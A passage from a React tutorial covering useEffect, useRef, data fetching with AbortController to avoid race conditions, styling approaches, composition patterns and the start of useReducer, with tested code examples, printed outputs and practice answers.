  useEffect(() => {
    localStorage.setItem("cart", JSON.stringify(items));
  }, [items]);

  return <button onClick={() => setItems([...items, "chai"])}>Add ({items.length})</button>;
}

localStorage.setItem("cart", JSON.stringify(["mug"]));
render(<Cart />);
fireEvent.click(screen.getByRole("button"));
console.log(document.title, "|", localStorage.getItem("cart"));
```

**Output:**

```text
(2) Chai Point | ["mug","chai"]
```

(`useState(() => ...)` with a function is a **lazy initial state**: the function runs only on the first render, so we don't parse `localStorage` on every render.)

**You don't need an effect for derived data.** The "effect" version renders twice with a stale value in between; the direct version is simpler and always correct:

```tsx
let renderLog: string[] = [];

function FullNameWithEffect({ first, last }: { first: string; last: string }) {
  const [fullName, setFullName] = useState("");
  useEffect(() => { setFullName(`${first} ${last}`); }, [first, last]);   // ❌ unnecessary
  renderLog.push(`effect version rendered "${fullName}"`);
  return <p>{fullName}</p>;
}

function FullNameDirect({ first, last }: { first: string; last: string }) {
  const fullName = `${first} ${last}`;                                       // ✅ derived
  renderLog.push(`direct version rendered "${fullName}"`);
  return <p>{fullName}</p>;
}

render(<><FullNameWithEffect first="Asha" last="Rao" /><FullNameDirect first="Asha" last="Rao" /></>);
console.log(renderLog);
```

**Output:**

```text
[
  'effect version rendered ""',
  'direct version rendered "Asha Rao"',
  'effect version rendered "Asha Rao"'
]
```

**Common mistakes:**

- Missing dependencies (stale values) or silencing the lint rule.
- Missing cleanup: duplicate subscriptions, intervals that keep running, memory leaks, "setState on unmounted component" bugs.
- Effects that set state which triggers the same effect again (infinite loops), often from objects/arrays created during render in the dependency list.
- Using effects to react to events ("when the form is submitted, send analytics"): do it in the handler.
- `useEffect(async () => ...)`: the effect function can't be `async` (it must return a cleanup function or nothing). Define an async function inside and call it.

### Practice

1. Write a `useDocumentTitle(title)`-style effect inside a component `Page({ title })` that sets `document.title` and restores the previous title when the component unmounts. Mount with "Orders", then unmount, and print the title each time.

<details>
<summary><b>Answer</b></summary>

```tsx
function Page({ title }: { title: string }) {
  useEffect(() => {
    const previous = document.title;
    document.title = title;
    return () => { document.title = previous; };
  }, [title]);
  return <h1>{title}</h1>;
}

document.title = "Home";
const page = render(<Page title="Orders" />);
console.log("mounted:", document.title);
page.unmount();
console.log("unmounted:", document.title);
```

**Output:**

```text
mounted: Orders
unmounted: Home
```

</details>

**Learn more:** [react.dev: Synchronizing with effects](https://react.dev/learn/synchronizing-with-effects) · [react.dev: You might not need an effect](https://react.dev/learn/you-might-not-need-an-effect) · [react.dev: Lifecycle of reactive effects](https://react.dev/learn/lifecycle-of-reactive-effects)

---

## 10. Refs: useRef for DOM Elements and Values That Don't Re-render

### Theory

> **In simple words:** `useRef` gives a component a **box** (`{ current: ... }`) that keeps its contents between renders, like state, but **changing it does not re-render** the component. You use refs for two things: (1) to get the real **DOM element** (to focus an input, scroll to an element, measure its size, or hand it to a non-React library), and (2) to remember a **value** that the UI doesn't display, like a timer ID or the previous value of something.

| | `useState` | `useRef` |
|---|---|---|
| Changing it re-renders | ✅ yes | ❌ no |
| Read during render | ✅ yes (that's the point) | ⚠️ avoid (the screen won't update when it changes) |
| Typical use | Anything shown on screen | DOM nodes, timer IDs, instance values, "latest value" for callbacks |
| How to change | `setX(newValue)` | `ref.current = newValue` (a normal mutation) |

**DOM refs:** create with `useRef<HTMLInputElement>(null)`, attach with `<input ref={inputRef} />`, and use `inputRef.current` in **event handlers or effects** (it's `null` during the first render, before the element exists).

**Refs to your own components (React 19):** `ref` is now a **normal prop** for function components, so `function TextField({ ref, ...props })` can forward it to an inner `<input>`. (Before React 19 you needed `forwardRef`, which you'll still see in older code.) `useImperativeHandle` lets a component expose a small custom API (`focus()`, `reset()`) instead of the whole DOM node.

**Callback refs** (`ref={node => {...}}`) run when the element is attached; in React 19 they can return a cleanup function, handy for observers.

**Don't use refs to "escape" React for things React can do**: showing/hiding, changing text or classes should be state. Refs are for things outside React's control.

### React

**Focus an input and scroll into view** from a button click:

```tsx
import { useRef, useState, useEffect, useImperativeHandle } from "react";
import type { Ref } from "react";
import { render, screen, fireEvent } from "@testing-library/react";

function SearchBox() {
  const inputRef = useRef<HTMLInputElement>(null);
  return (
    <div>
      <input ref={inputRef} aria-label="Search" />
      <button onClick={() => inputRef.current?.focus()}>Focus search</button>
    </div>
  );
}

render(<SearchBox />);
console.log("focused before:", document.activeElement === screen.getByLabelText("Search"));
fireEvent.click(screen.getByText("Focus search"));
console.log("focused after: ", document.activeElement === screen.getByLabelText("Search"));
```

**Output:**

```text
focused before: false
focused after:  true
```

**Refs for values that don't affect the screen**: the interval's ID, so a second click doesn't start a second timer and the timer can be stopped from anywhere:

```tsx
function OtpTimer() {
  const [secondsLeft, setSecondsLeft] = useState(3);
  const timerId = useRef<ReturnType<typeof setInterval> | null>(null);

  function start() {
    if (timerId.current) return;                 // already running
    timerId.current = setInterval(() => {
      setSecondsLeft(s => {
        if (s <= 1) { clearInterval(timerId.current!); timerId.current = null; return 0; }
        return s - 1;
      });
    }, 10);
  }
  useEffect(() => () => { if (timerId.current) clearInterval(timerId.current); }, []);   // cleanup on unmount

  return (
    <div>
      <p>{secondsLeft > 0 ? `Resend OTP in ${secondsLeft}s` : "You can resend the OTP now"}</p>
      <button onClick={start}>Start</button>
    </div>
  );
}

import { act } from "react";
render(<OtpTimer />);
fireEvent.click(screen.getByText("Start"));
fireEvent.click(screen.getByText("Start"));      // ignored: ref says it's running
await act(() => new Promise(r => setTimeout(r, 80)));
console.log(document.querySelector("p")!.textContent);
```

**Output:**

```text
You can resend the OTP now
```

**`ref` as a prop (React 19) and `useImperativeHandle`:** a reusable `TextField` passes the ref to its inner input, and a `PinInput` exposes only `focus` and `clear`:

```tsx
function TextField({ label, ref }: { label: string; ref?: Ref<HTMLInputElement> }) {
  return <label>{label} <input ref={ref} /></label>;
}

type PinHandle = { focus: () => void; clear: () => void };
function PinInput({ ref }: { ref?: Ref<PinHandle> }) {
  const inputRef = useRef<HTMLInputElement>(null);
  useImperativeHandle(ref, () => ({
    focus: () => inputRef.current?.focus(),
    clear: () => { if (inputRef.current) inputRef.current.value = ""; },
  }));
  return <input ref={inputRef} aria-label="PIN" defaultValue="1234" />;
}

function Checkout() {
  const emailRef = useRef<HTMLInputElement>(null);
  const pinRef = useRef<PinHandle>(null);
  return (
    <div>
      <TextField label="Email" ref={emailRef} />
      <PinInput ref={pinRef} />
      <button onClick={() => { pinRef.current?.clear(); pinRef.current?.focus(); }}>Reset PIN</button>
      <button onClick={() => emailRef.current?.focus()}>Edit email</button>
    </div>
  );
}

render(<Checkout />);
fireEvent.click(screen.getByText("Reset PIN"));
const pin = screen.getByLabelText("PIN") as HTMLInputElement;
console.log("PIN cleared:", pin.value === "", "| PIN focused:", document.activeElement === pin);
fireEvent.click(screen.getByText("Edit email"));
console.log("email focused:", document.activeElement === screen.getByLabelText("Email"));
```

**Output:**

```text
PIN cleared: true | PIN focused: true
email focused: true
```

**Reading a ref during render gives stale UI**: the text below doesn't update when the ref changes, because nothing re-renders:

```tsx
function RefCounter() {
  const clicks = useRef(0);
  return <button onClick={() => { clicks.current++; }}>Clicked {clicks.current} times</button>;
}
render(<RefCounter />);
fireEvent.click(screen.getByRole("button"));
fireEvent.click(screen.getByRole("button"));
console.log(screen.getByRole("button").textContent);
```

**Output:**

```text
Clicked 0 times
```

**Common mistakes:**

- Using `ref.current` in JSX to display something (it won't update): use state.
- Accessing `ref.current` during the first render (it's `null`): do it in handlers or effects.
- Manipulating the DOM that React manages (removing children, changing text): React will overwrite or crash. Only do "read" operations and focus/scroll/measure.
- Still writing `forwardRef` in new React 19 code; `ref` is a prop now.

### Practice

1. Build a `ChatLog` that shows messages and, whenever a new message is added, scrolls the last message into view using a ref and an effect. (jsdom doesn't do layout, so mock `scrollIntoView` and count calls.) Add two messages.

<details>
<summary><b>Answer</b></summary>

```tsx
let scrollCalls = 0;
Element.prototype.scrollIntoView = function () { scrollCalls++; };

function ChatLog() {
  const [messages, setMessages] = useState(["Hi! How can we help?"]);
  const endRef = useRef<HTMLLIElement>(null);
  useEffect(() => { endRef.current?.scrollIntoView({ behavior: "smooth" }); }, [messages.length]);
  return (
    <div>
      <ul>{messages.map((m, i) => <li key={i} ref={i === messages.length - 1 ? endRef : undefined}>{m}</li>)}</ul>
      <button onClick={() => setMessages([...messages, `Message ${messages.length}`])}>Send</button>
    </div>
  );
}

render(<ChatLog />);
fireEvent.click(screen.getByText("Send"));
fireEvent.click(screen.getByText("Send"));
console.log(document.querySelectorAll("li").length, "messages, scrolled", scrollCalls, "times");
```

**Output:**

```text
3 messages, scrolled 3 times
```

(One scroll on mount plus one per new message. Index keys are acceptable here because messages are only appended, never reordered.)

</details>

**Learn more:** [react.dev: Referencing values with refs](https://react.dev/learn/referencing-values-with-refs) · [react.dev: Manipulating the DOM with refs](https://react.dev/learn/manipulating-the-dom-with-refs) · [React 19: ref as a prop](https://react.dev/blog/2024/12/05/react-19#ref-as-a-prop)

---

## 11. Fetching Data: Loading, Errors and Race Conditions

### Theory

> **In simple words:** most screens show data from a server. Fetching has three states you must show: **loading** (show a spinner or skeleton), **error** (show a message and a retry button) and **success** (show the data). And there's a sneaky bug: if the user switches from product A to product B quickly, the **slower** response for A might arrive **last** and overwrite B's data. This is a **race condition**; you prevent it by **ignoring or aborting** outdated requests.

**Where fetching belongs in 2026:**

| Situation | Recommended |
|---|---|
| Framework app (Next.js, React Router, TanStack Start) | Fetch on the **server** or in route **loaders**; the page arrives with data |
| Client-side app (Vite SPA) | **TanStack Query** (or SWR): caching, deduplication, retries, background refresh (Part 4) |
| Learning, or one tiny widget | `useEffect` + `fetch` with cleanup, as in this section |
| React 19 with a cached promise | `use(promise)` + `<Suspense>` (Part 3) |

Understanding the manual version helps you understand what the libraries do for you.

**The manual recipe (`useEffect` + `fetch`):**

1. Keep `data`, `error` and `status` in state (or one discriminated union: `{ status: "loading" } | { status: "error"; message } | { status: "success"; data }`).
2. In the effect, create an `AbortController`, start `fetch(url, { signal })`, and set state when it finishes.
3. **Check `res.ok`**: `fetch` only rejects on network errors, not on 404/500.
4. In the cleanup, call `controller.abort()`: the old request is cancelled when the ID changes or the component unmounts, so a stale response can never overwrite newer data.
5. Treat the response as untrusted: validate it (Zod) before using it.

### React

A tiny local API with a deliberately **slow** product (id 1) and a **fast** one (id 2), plus a failing one (id 404):

```tsx
import { createServer } from "node:http";

const server = createServer((req, res) => {
  const id = req.url?.split("/").pop();
  const delay = id === "1" ? 150 : 20;
  setTimeout(() => {
    res.setHeader("content-type", "application/json");
    if (id === "1") return res.end(JSON.stringify({ id: 1, name: "Masala chai", pricePaise: 18000 }));
    if (id === "2") return res.end(JSON.stringify({ id: 2, name: "Steel mug", pricePaise: 34900 }));
    res.statusCode = 404;
    res.end(JSON.stringify({ error: "not found" }));
  }, delay);
});
await new Promise<void>(r => server.listen(0, r));
const API = `http://localhost:${(server.address() as { port: number }).port}`;
console.log("api ready");
```

**Output:**

```text
api ready
```

**A product view that handles loading, errors and race conditions:**

```tsx
import { useEffect, useState, act } from "react";
import { render, screen, fireEvent } from "@testing-library/react";

type Product = { id: number; name: string; pricePaise: number };
type State = { status: "loading" } | { status: "error"; message: string } | { status: "success"; product: Product };

function ProductView({ id }: { id: number }) {
  const [state, setState] = useState<State>({ status: "loading" });
  const [attempt, setAttempt] = useState(0);

  useEffect(() => {
    const controller = new AbortController();
    setState({ status: "loading" });
    fetch(`${API}/products/${id}`, { signal: controller.signal })
      .then(async res => {
        if (!res.ok) throw new Error(`HTTP ${res.status}`);
        return (await res.json()) as Product;           // validate with Zod in real code
      })
      .then(product => setState({ status: "success", product }))
      .catch((err: unknown) => {
        if (controller.signal.aborted) return;           // outdated request: ignore
        setState({ status: "error", message: err instanceof Error ? err.message : "Unknown error" });
      });
    return () => controller.abort();                     // cleanup: cancel on id change / unmount
  }, [id, attempt]);

  if (state.status === "loading") return <p>Loading…</p>;
  if (state.status === "error") return <p role="alert">Failed: {state.message} <button onClick={() => setAttempt(a => a + 1)}>Retry</button></p>;
  return <h2>{state.product.name} · ₹{state.product.pricePaise / 100}</h2>;
}

function Shop() {
  const [id, setId] = useState(1);
  return (
    <div>
      <button onClick={() => setId(1)}>Chai</button>
      <button onClick={() => setId(2)}>Mug</button>
      <button onClick={() => setId(404)}>Broken</button>
      <ProductView id={id} />
    </div>
  );
}

const wait = (ms: number) => act(() => new Promise(r => setTimeout(r, ms)));
render(<Shop />);
console.log("start:", document.body.textContent?.replace("ChaiMugBroken", ""));
fireEvent.click(screen.getByText("Mug"));          // switch before the slow chai request finishes
await wait(250);                                     // both responses have arrived by now
console.log("after switching quickly:", document.querySelector("h2")?.textContent);
fireEvent.click(screen.getByText("Broken"));
await wait(100);
console.log(screen.getByRole("alert").textContent);
```

**Output:**

```text
start: Loading…
after switching quickly: Steel mug · ₹349
Failed: HTTP 404 Retry
```

Without the abort in the cleanup, the slow "Masala chai" response (150 ms) would arrive **after** the mug (20 ms) and overwrite it, showing chai while the user asked for the mug.

**The race condition, demonstrated.** The same component **without** cleanup:

```tsx
function RacyProductView({ id }: { id: number }) {
  const [name, setName] = useState("Loading…");
  useEffect(() => {
    fetch(`${API}/products/${id}`).then(r => r.json()).then((p: Product) => setName(p.name));   // no cleanup ❌
  }, [id]);
  return <h2>{name}</h2>;
}

function RacyShop() {
  const [id, setId] = useState(1);
  return <div><button onClick={() => setId(2)}>Mug</button><RacyProductView id={id} /></div>;
}

render(<RacyShop />);
fireEvent.click(screen.getByText("Mug"));
await wait(250);
console.log("asked for the mug, but shows:", document.querySelector("h2")!.textContent);
server.close();
```

**Output:**

```text
asked for the mug, but shows: Masala chai
```

**Common mistakes:**

- No loading or error UI (a blank screen or a crash on `data.name` when `data` is `null`).
- Not checking `res.ok`: a 404 or 500 is treated as success.
- No cleanup: race conditions and state updates after unmount.
- Fetching in a child **and** its parent in sequence ("waterfalls"): each waits for the previous. Fetch in parallel, higher up, or in route loaders.
- Refetching the same data in every component that needs it. That's the job of a cache like TanStack Query.

### Practice

1. Add a **loading indicator that doesn't hide the old data**: while a new product loads, keep showing the previous product with an "(updating…)" note instead of replacing it with "Loading…". (Describe the state change; one approach is to keep the last successful product in its own state.)

<details>
<summary><b>Answer</b></summary>

Store `product` (last successful data) and `isLoading` separately instead of one status: on id change set `isLoading = true` but keep `product`; on success replace `product` and set `isLoading = false`. Render `product` if you have one, plus "(updating…)" while `isLoading`. TanStack Query calls this `placeholderData: keepPreviousData`; React's `useTransition` and `useDeferredValue` (Part 5) give the same "keep showing the old screen" behaviour for any update.

</details>

**Learn more:** [react.dev: Fetching data with effects](https://react.dev/reference/react/useEffect#fetching-data-with-effects) · [MDN: AbortController](https://developer.mozilla.org/en-US/docs/Web/API/AbortController) · [TanStack Query: Why?](https://tanstack.com/query/latest/docs/framework/react/overview)

---

## 12. Styling React Apps

### Theory

> **In simple words:** React doesn't dictate how you style; components just output HTML elements with `className` and `style`. The popular approaches differ in **where the CSS lives** and **how names are kept from clashing**. In 2026 the mainstream choices are **Tailwind CSS** (utility classes in JSX) and **CSS Modules** (normal CSS files with automatically unique class names), often combined with a component library.

| Approach | How it looks | Pros | Cons |
|---|---|---|---|
| **Tailwind CSS v4** | `<button className="rounded-lg bg-blue-600 px-4 py-2 text-white hover:bg-blue-700">` | Fast to build, consistent design tokens, tiny CSS output, no naming | Long class lists (extract components), learning the utilities |
| **CSS Modules** | `import s from "./Button.module.css"` → `className={s.primary}` | Plain CSS, scoped automatically, works everywhere (Vite, Next.js) | Separate file per component |
| Plain global CSS | `import "./app.css"`, BEM names | Simple | Name clashes in big apps |
| Inline `style={{...}}` | `style={{ width: progress + "%" }}` | Dynamic values | No hover/media queries; use for truly dynamic numbers only |
| CSS-in-JS (runtime) | styled-components, Emotion | Co-located, dynamic | Runtime cost, awkward with Server Components; declining for new projects |
| Zero-runtime CSS-in-JS | vanilla-extract, Panda CSS, StyleX | Type-safe, compiled to CSS | Build setup |
| **Component libraries** | shadcn/ui (copy-in components on Radix + Tailwind), MUI, Mantine, Chakra | Accessible, ready-made widgets | Styling constraints, bundle size (varies) |

**Modern CSS reduces the need for JavaScript:** CSS variables for theming, `:has()`, container queries, native nesting, `@layer`, `prefers-color-scheme` for dark mode, and view transitions.

**Conditional classes:** build the `className` string from state. The tiny helpers **`clsx`** and **`tailwind-merge`** (combined as `cn()` in shadcn/ui) join classes and resolve Tailwind conflicts.

**Accessible styling basics:** visible focus styles (`:focus-visible`), enough colour contrast (WCAG AA: 4.5:1 for text), don't rely on colour alone (add icons or text), and respect `prefers-reduced-motion`.

### React

**Conditional classes** with a small `cn` helper (what `clsx` does), and dynamic values with `style` and CSS variables:

```tsx
import { render } from "@testing-library/react";
import type { ComponentProps } from "react";

function cn(...parts: Array<string | false | null | undefined>): string {
  return parts.filter(Boolean).join(" ");
}

type ButtonProps = ComponentProps<"button"> & { variant?: "primary" | "ghost" | "danger"; size?: "sm" | "md" };

function Button({ variant = "primary", size = "md", className, ...rest }: ButtonProps) {
  return (
    <button
      className={cn(
        "btn",
        variant === "primary" && "btn-primary",
        variant === "ghost" && "btn-ghost",
        variant === "danger" && "btn-danger",
        size === "sm" && "btn-sm",
        rest.disabled && "btn-disabled",
        className,
      )}
      {...rest}
    />
  );
}

function ProgressBar({ percent }: { percent: number }) {
  const clamped = Math.min(100, Math.max(0, percent));
  return (
    <div className="progress" role="progressbar" aria-valuenow={clamped} aria-valuemin={0} aria-valuemax={100}
         style={{ "--progress": `${clamped}%` } as React.CSSProperties}>
      <div className="progress-fill" style={{ width: `${clamped}%` }} />
    </div>
  );
}

const html = render(
  <div>
    <Button>Save</Button>
    <Button variant="danger" size="sm" disabled>Delete</Button>
    <Button variant="ghost" className="ml-2">Cancel</Button>
    <ProgressBar percent={130} />
  </div>,
).container.innerHTML;
console.log(html.replaceAll("><", ">\n<"));
```

**Output:**

```text
<div>
<button class="btn btn-primary">Save</button>
<button class="btn btn-danger btn-sm btn-disabled" disabled="">Delete</button>
<button class="btn btn-ghost ml-2">Cancel</button>
<div class="progress" role="progressbar" aria-valuenow="100" aria-valuemin="0" aria-valuemax="100" style="--progress: 100%;">
<div class="progress-fill" style="width: 100%;">
</div>
</div>
</div>
```

(`--progress` is a CSS custom property the stylesheet can use, e.g. for a gradient; the cast is needed because TypeScript's style type doesn't know custom properties.)

**What the different approaches look like in real files** (for reference; these need a bundler like Vite to process the CSS):

<!-- no-run (needs Vite to process CSS Modules and Tailwind) -->
```tsx
// Button.module.css
// .primary { background: var(--brand); color: white; border-radius: 8px; }
// .primary:hover { background: var(--brand-dark); }

import styles from "./Button.module.css";
export function ModuleButton() {
  return <button className={styles.primary}>Pay</button>;       // class becomes e.g. "_primary_x7k2a"
}

// Tailwind CSS v4: add `@import "tailwindcss";` to your CSS, then:
export function TailwindButton() {
  return (
    <button className="rounded-lg bg-blue-600 px-4 py-2 font-semibold text-white hover:bg-blue-700 focus-visible:outline-2 disabled:opacity-50">
      Pay
    </button>
  );
}
```

**Common mistakes:**

- Huge inline `style` objects for static styling (no hover, media queries or caching). Use classes.
- Class name collisions in global CSS; use CSS Modules or Tailwind.
- Building Tailwind class names dynamically (`"bg-" + color + "-600"`): Tailwind can't detect them at build time. Map to full class names: `{ red: "bg-red-600", blue: "bg-blue-600" }[color]`.
- Removing focus outlines (`outline: none`) without a replacement: keyboard users get lost.

### Practice

1. Write a `Badge` component with `tone: "success" | "warning" | "danger"` that maps each tone to full (static) Tailwind class strings via a lookup object, and render all three.

<details>
<summary><b>Answer</b></summary>

```tsx
const toneClasses = {
  success: "bg-green-100 text-green-800",
  warning: "bg-amber-100 text-amber-800",
  danger: "bg-red-100 text-red-800",
} as const;

function Badge({ tone, children }: { tone: keyof typeof toneClasses; children: string }) {
  return <span className={cn("rounded px-2 py-0.5 text-xs font-medium", toneClasses[tone])}>{children}</span>;
}

console.log(render(<p><Badge tone="success">Paid</Badge><Badge tone="warning">Pending</Badge><Badge tone="danger">Failed</Badge></p>).container.innerHTML.replaceAll("><", ">\n<"));
```

**Output:**

```text
<p>
<span class="rounded px-2 py-0.5 text-xs font-medium bg-green-100 text-green-800">Paid</span>
<span class="rounded px-2 py-0.5 text-xs font-medium bg-amber-100 text-amber-800">Pending</span>
<span class="rounded px-2 py-0.5 text-xs font-medium bg-red-100 text-red-800">Failed</span>
</p>
```

</details>

**Learn more:** [Tailwind CSS](https://tailwindcss.com/docs) · [Vite: CSS Modules](https://vite.dev/guide/features.html#css-modules) · [shadcn/ui](https://ui.shadcn.com/) · [clsx](https://github.com/lukeed/clsx)

---

## 13. Composition Patterns: children, Slots, Render Props and Avoiding Prop Drilling

### Theory

> **In simple words:** React components are combined like LEGO bricks. Instead of one giant component with dozens of options, you build small pieces and **compose** them: a `Card` that accepts any content as `children`, a `Layout` with `header` and `sidebar` "slots", a `List` that asks you **how** to render each item. Composition is also the simplest fix for **prop drilling** (passing a prop through many components that don't use it).

| Pattern | Idea | Example |
|---|---|---|
| **`children`** | The component wraps whatever you nest inside it | `<Card><OrderSummary /></Card>` |
| **Slots (element props)** | Several named "holes" for content | `<Layout header={<Nav />} sidebar={<Filters />}>` |
| **Render props** | Pass a function that returns JSX, so the parent decides how each part renders | `<List items={x} renderItem={i => <Row {...i} />} />` |
| **Specialisation** | A specific component built from a generic one | `function DangerButton(p) { return <Button variant="danger" {...p} /> }` |
| **Compound components** | Components that work together sharing state through context | `<Tabs><Tabs.List/><Tabs.Panel/></Tabs>` (Part 3, after context) |
| **Custom hooks** | Share **logic**, not markup | `useCart()` (Part 3) |
| Higher-order components (HOCs) | `withAuth(Component)` wraps a component | Older pattern; prefer hooks and composition today |

**Fixing prop drilling with composition:** if `App` has the `user` and a deeply nested `Avatar` needs it, don't pass `user` through `Page → Sidebar → Profile`. Instead, have `App` create `<Avatar user={user} />` itself and pass that **element** down as `children` or a slot. The middle components just place it; they don't need to know about `user`. When many distant components need the same data, use **context** (Part 3).

**Composition over configuration:** a `Modal` with `title`, `body`, `footer`, `showClose`, `closeText`, `onConfirm`, `confirmText`... props gets harder to use every week. A `Modal` that takes `children` and lets callers compose `<ModalHeader>`, content and their own buttons stays small and flexible.

### React

**`children` and slots:**

```tsx
import { useState } from "react";
import type { ReactNode } from "react";
import { render, screen, fireEvent } from "@testing-library/react";

function Card({ title, actions, children }: { title: string; actions?: ReactNode; children: ReactNode }) {
  return (
    <section className="card">
      <header><h3>{title}</h3>{actions}</header>
      <div className="card-body">{children}</div>
    </section>
  );
}

function Layout({ header, sidebar, children }: { header: ReactNode; sidebar: ReactNode; children: ReactNode }) {
  return (
    <div className="layout">
      <div className="top">{header}</div>
      <aside>{sidebar}</aside>
      <main>{children}</main>
    </div>
  );
}

const page = (
  <Layout header={<nav>Chai Point</nav>} sidebar={<ul><li>Tea</li><li>Ware</li></ul>}>
    <Card title="Order #90312" actions={<button>Track</button>}>
      <p>2 × Masala chai</p>
    </Card>
  </Layout>
);
console.log(render(page).container.innerHTML.replaceAll("><", ">\n<"));
```

**Output:**

```text
<div class="layout">
<div class="top">
<nav>Chai Point</nav>
</div>
<aside>
<ul>
<li>Tea</li>
<li>Ware</li>
</ul>
</aside>
<main>
<section class="card">
<header>
<h3>Order #90312</h3>
<button>Track</button>
</header>
<div class="card-body">
<p>2 × Masala chai</p>
</div>
</section>
</main>
</div>
```

**Render props**: a generic `SelectableList` handles selection, and the caller decides how rows look:

```tsx
function SelectableList<T>({ items, getKey, renderItem }: {
  items: T[];
  getKey: (item: T) => string;
  renderItem: (item: T, selected: boolean) => ReactNode;
}) {
  const [selected, setSelected] = useState<string | null>(null);
  return (
    <ul>
      {items.map(item => (
        <li key={getKey(item)} onClick={() => setSelected(getKey(item))}>
          {renderItem(item, selected === getKey(item))}
        </li>
      ))}
    </ul>
  );
}

type Address = { id: string; label: string; city: string };
const addresses: Address[] = [{ id: "home", label: "Home", city: "Pune" }, { id: "work", label: "Work", city: "Mumbai" }];

render(
  <SelectableList
    items={addresses}
    getKey={a => a.id}
    renderItem={(a, selected) => <span>{selected ? "◉" : "○"} {a.label}, {a.city}</span>}
  />,
);
fireEvent.click(screen.getByText(/Work/));
console.log([...document.querySelectorAll("li")].map(li => li.textContent));
```

**Output:**

```text
[ '○ Home, Pune', '◉ Work, Mumbai' ]
```

**Prop drilling vs composition.** Both versions show the user's name deep inside the page. In the drilled version every layer must accept and pass `user`; in the composed version the middle layers only place `children`:

```tsx
type User = { name: string; plan: string };

// ❌ drilling: Page and Sidebar must know about `user`
function DrillAvatar({ user }: { user: User }) { return <b>{user.name} ({user.plan})</b>; }
function DrillSidebar({ user }: { user: User }) { return <aside><DrillAvatar user={user} /></aside>; }
function DrillPage({ user }: { user: User }) { return <div><DrillSidebar user={user} /></div>; }

// ✅ composition: only App knows about `user`
function Avatar({ user }: { user: User }) { return <b>{user.name} ({user.plan})</b>; }
function Sidebar({ children }: { children: ReactNode }) { return <aside>{children}</aside>; }
function Page({ children }: { children: ReactNode }) { return <div>{children}</div>; }

const user = { name: "Asha", plan: "Pro" };
const drilled = render(<DrillPage user={user} />).container.innerHTML;
const composed = render(<Page><Sidebar><Avatar user={user} /></Sidebar></Page>).container.innerHTML;
console.log(drilled === composed, composed);
```

**Output:**

```text
true <div><aside><b>Asha (Pro)</b></aside></div>
```

Same HTML, but in the composed version `Page` and `Sidebar` are reusable for any content.

**Common mistakes:**

- Boolean-prop explosions (`showHeader`, `showFooter`, `compact`, `noPadding`, `withIcon`...). Prefer slots and children.
- Reaching for context or a global store to avoid passing a prop through **two** levels. Passing props is fine; composition or context is for deep or wide sharing.
- Creating components **inside** other components (`function Parent() { function Child() {...} return <Child/> }`): `Child` is a new component type every render, so its state resets each time. Define components at the top level.

### Practice

1. Write a `Tooltip` component that takes `content` (a slot) and `children` (the trigger), and shows the content only while "hovered" (use `onMouseEnter`/`onMouseLeave`). Hover the trigger and print the HTML, then unhover.

<details>
<summary><b>Answer</b></summary>

```tsx
function Tooltip({ content, children }: { content: ReactNode; children: ReactNode }) {
  const [open, setOpen] = useState(false);
  return (
    <span onMouseEnter={() => setOpen(true)} onMouseLeave={() => setOpen(false)}>
      {children}
      {open && <span role="tooltip">{content}</span>}
    </span>
  );
}

render(<Tooltip content={<em>Free delivery above ₹499</em>}><button>ℹ️</button></Tooltip>);
fireEvent.mouseEnter(screen.getByRole("button").parentElement!);
console.log(screen.getByRole("tooltip").textContent);
fireEvent.mouseLeave(screen.getByRole("button").parentElement!);
console.log(screen.queryByRole("tooltip"));
```

**Output:**

```text
Free delivery above ₹499
null
```

</details>

---

### ✅ Part 2 checkpoint

Without looking, can you:

- [ ] Decide where each piece of state should live, lift state up, and compute derived data instead of storing it?
- [ ] Write effects with correct dependencies and cleanup, and name the cases where you don't need an effect?
- [ ] Use refs for DOM elements and non-rendered values, including `ref` as a prop in React 19?
- [ ] Fetch data with loading/error states and prevent race conditions with `AbortController`?
- [ ] Choose a styling approach and build conditional class names safely?
- [ ] Compose components with `children`, slots and render props to avoid prop drilling?

**Learn more:** [react.dev: Passing JSX as children](https://react.dev/learn/passing-props-to-a-component#passing-jsx-as-children) · [react.dev: Before you use context](https://react.dev/learn/passing-data-deeply-with-context#before-you-use-context) · [patterns.dev: React patterns](https://www.patterns.dev/react)

---

# Part 3 — Moderate: Hooks and How React Works

> **Goal:** Use reducers, context and custom hooks, understand rendering and reconciliation, optimise performance, handle loading and errors with Suspense and error boundaries, and build accessible UIs.  
> **You need:** Parts 1–2.

---

## 14. useReducer: State Logic in One Place

### Theory

> **In simple words:** when a component's state gets complicated (several related values, many ways to change them), spreading `setX` calls across many handlers gets messy. **`useReducer`** moves all the update logic into one pure function, the **reducer**: `(state, action) => newState`. Event handlers just **describe what happened** by dispatching an action, like `dispatch({ type: "added", sku })`, and the reducer decides how the state changes.

```text
const [state, dispatch] = useReducer(reducer, initialState);
dispatch({ type: "added", sku: "TEA-250" });    // → reducer(state, action) → new state → re-render
```

**`useState` vs `useReducer`:**

| | `useState` | `useReducer` |
|---|---|---|
| Best for | Independent, simple values | Related values, many update types, "next state depends on previous state and action" |
| Where logic lives | Spread across handlers | One reducer function |
| Testing | Test through the component | Reducer is a pure function: test it with plain inputs and outputs |
| Debugging | Log in each handler | Log every action in one place |

**Reducer rules:** it must be **pure** (no API calls, no random IDs, no mutations; return a **new** state object), and it should handle every action type. With TypeScript, model actions as a **discriminated union**, so `dispatch` only accepts valid actions and the `switch` knows each action's fields.

**Name actions by what happened** (`"item_added"`, `"checkout_started"`), not by what to set (`"set_items"`): the reducer becomes a readable log of events. This is exactly the Redux pattern, built into React.

### React

A shopping cart with a typed reducer. The reducer is tested directly first (it's just a function), then used in a component:

```tsx
import { useReducer } from "react";
import { render, screen, fireEvent } from "@testing-library/react";

type Line = { sku: string; name: string; pricePaise: number; qty: number };
type CartState = { lines: Line[]; coupon: string | null };
type CartAction =
  | { type: "item_added"; item: Omit<Line, "qty"> }
  | { type: "qty_changed"; sku: string; qty: number }
  | { type: "item_removed"; sku: string }
  | { type: "coupon_applied"; code: string }
  | { type: "cart_cleared" };

const initialCart: CartState = { lines: [], coupon: null };

function cartReducer(state: CartState, action: CartAction): CartState {
  switch (action.type) {
    case "item_added": {
      const existing = state.lines.find(l => l.sku === action.item.sku);
      return existing
        ? { ...state, lines: state.lines.map(l => (l.sku === action.item.sku ? { ...l, qty: l.qty + 1 } : l)) }
        : { ...state, lines: [...state.lines, { ...action.item, qty: 1 }] };
    }
    case "qty_changed":
      return action.qty <= 0
        ? { ...state, lines: state.lines.filter(l => l.sku !== action.sku) }
        : { ...state, lines: state.lines.map(l => (l.sku === action.sku ? { ...l, qty: action.qty } : l)) };
    case "item_removed":
      return { ...state, lines: state.lines.filter(l => l.sku !== action.sku) };
